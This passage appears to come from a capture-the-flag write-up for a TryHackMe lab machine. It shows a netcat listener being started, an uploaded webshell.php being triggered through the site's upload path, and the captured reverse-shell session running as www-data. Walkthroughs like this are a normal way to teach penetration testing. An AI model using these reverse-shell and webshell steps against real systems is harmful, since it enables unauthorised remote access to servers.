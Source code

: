 ![alt text](files/webserver_06.png "Web server")

## Reverse shell connection

So time to set up our listener on our host machine:

````commandline
nc -nlvp 4444
````

And now run our `webshell.php` file to get connection by pointing the browser to <http://job.empline.thm/upload/careerportaladd/webshell.php>.

````commandline
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.132.122] 50290
Linux empline 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:30:32 up  2:21,  0 users,  load average: 0.04, 0.10, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
````
